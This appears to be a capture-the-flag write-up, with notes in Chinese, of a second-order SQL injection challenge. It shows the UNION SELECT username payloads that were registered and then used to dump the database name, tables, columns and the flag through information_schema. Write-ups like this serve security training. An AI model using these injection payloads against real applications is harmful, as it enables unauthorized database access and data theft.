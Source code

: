# October 2019 Twice SQL Injection
![](<./img/Pasted image 20230209095656.png>)

```
/?action=login
```

![](<./img/Pasted image 20230209095849.png>)

```
/?action=reg
```

![](<./img/Pasted image 20230209100007.png>)

```
/?action=index
```

![](<./img/Pasted image 20230209100928.png>)

题目明示是二次注入，而唯一的回显点是`info`

对`info`的注入没有什么收获，估计在写入的时候做了转义，而又没有其他情况是需要`info`拼接入查询的

因而注入点大底只可能是`username`了

推测对`info`的查询实现如下

```sql
SELECT INFO FROM USERS WHERE USERNAME = '$username';
```

尝试对用户名进行联合注入

```
username: ' union select database()#
password: 
```

![](<./img/Pasted image 20230209102931.png>)

```
username: ' union select group_concat(table_name) from information_schema.tables where table_schema = 'ctftraining'#
password: 
```

```
flag,news,users
```

```
username: ' union select group_concat(column_name) from information_schema.columns where table_name = 'flag'#
password: 
```

```
flag
```

```
username: ' union select group_concat(flag) from flag#
password: 
```

```
flag{0ee8b261-5b74-4931-8c2e-aa9cf771b6d5}
```

#Web #SQL注入 #二次注入 